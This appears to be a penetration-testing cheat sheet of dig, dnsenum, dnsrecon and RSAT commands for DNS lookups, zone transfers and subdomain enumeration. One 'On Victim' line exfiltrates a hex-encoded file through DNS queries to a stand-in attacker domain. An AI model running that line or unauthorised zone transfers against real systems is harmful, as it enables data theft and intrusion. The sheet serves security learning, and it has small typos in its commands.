 # [dig](https://linux.die.net/man/1/dig) commands

- The `dig` command (Domain Information Groper) is a versatile and powerful utility for querying DNS servers and retrieving various types of DNS records
- A DNS zone transfer is essentially a wholesale copy of all DNS records within a zone (a domain and its subdomains) from one name server to another. The information gleaned from an unauthorised zone transfer can be invaluable to an attacker. It reveals a comprehensive map of the target's DNS infrastructure, including subdomains, IP addresses and name server records. If the server is misconfigured and allows the transfer, you'll receive a complete list of DNS records for the domain, including all subdomains.

- Performs a default A record lookup for the domain. - `dig domain.com` 
- Retrieves the IPv4 address (A record) associated with the domain. - `dig domain.com A` 
- Retrieves the IPv6 address (AAAA record) associated with the domain. - `dig domain.com AAAA` 
- Finds the mail servers (MX records) responsible for the domain - `dig domain.com MX` 
- Identifies the authoritative name servers for the domain - `dig domain.com NS` 
- Retrieves any TXT records associated with the domain - `dig domain.com TXT` 
- Retrieves the canonical name (CNAME) record for the domain - `dig domain.com CNAME`
- Retrieves the start of authority (SOA) record for the domain - `dig domain.com SOA` 
- Specifies a specific name server to query; in this case 1.1.1.1 - `dig @1.1.1.1 domain.com` 
- Shows the full path of DNS resolution - `dig +trace domain.com` 
- Performs a reverse lookup on the IP address 192.168.1.1 to find the associated hostname. You may need to specify a name server - `dig -x 192.168.1.1` 
- Provides a short, concise answer to the query. - `dig +short domain.com` 
- Displays only the answer section of the query output. - `dig +noall +answer domain.com` 
- Retrieves all available DNS records for the domain (Note: Many DNS servers ignore ANY queries to reduce load and prevent abuse, as per RFC 8482). - `dig domain.com ANY` 
- Reverse domain lookup - `dig -x <IP_ADDRESS>` 
- DNS zone transfer - `dig axfr <DOMAIN_NAME_TO_TRANSFER> @<DNS_IP>` (axfr is the zone transfer request)
- DNS reverse lookup (Replace first three octets of IP to set class C address to scan) - `for ip in {1..254..1}; do dig –x 1.1.1.$ip \| grep $ip >> dns.txt; done;`
- On Victim: Read in each line and do a DNS lookup - `for b in `cat file.hex `; do dig $b.shell.evilexample.com; done`
- Lookup domain by IP - `dig -x <ip>`
- Host transfer - `dig @ <ip> <domain> it AXFR`

**Caution**: Some servers can detect and block excessive DNS queries. Use caution and respect rate limits. Always obtain permission before performing extensive DNS reconnaissance on a target.

# [dnsenum](https://github.com/fwaeytens/dnsenum) commands
Comprehensive DNS enumeration tool that supports dictionary and brute-force attacks for discovering subdomains. REMINDER: Subdomains are the XYZ.google.com and directories are the google.com/XYZ
- `dnsenum --enum inlanefreight.com -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

---

# [dnsrecon](https://github.com/darkoperator/dnsrecon) commands
Versatile tool that combines multiple DNS reconnaissance techniques and offers customisable output formats.

# Remote Server Administration Tool (RSAT)
Allows systems administrators to remotely manage Windows Server roles and features from a workstation running Windows 10, Windows 8.1, Windows 7, or Windows Vista. RSAT can only be installed on Professional or Enterprise editions of Windows. In an enterprise environment, RSAT can remotely manage Active Directory, DNS, and DHCP. RSAT also allows us to manage installed server roles and features, File Services, and Hyper-V. If installed the toolsd will be available under the Administrative Tools in the Control Panel
- Check which, if any RSAT tools are install - `Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property Name, State`
- Install all available RSAT - `Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability –Online`
- Or one at a time - `Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0  –Online`
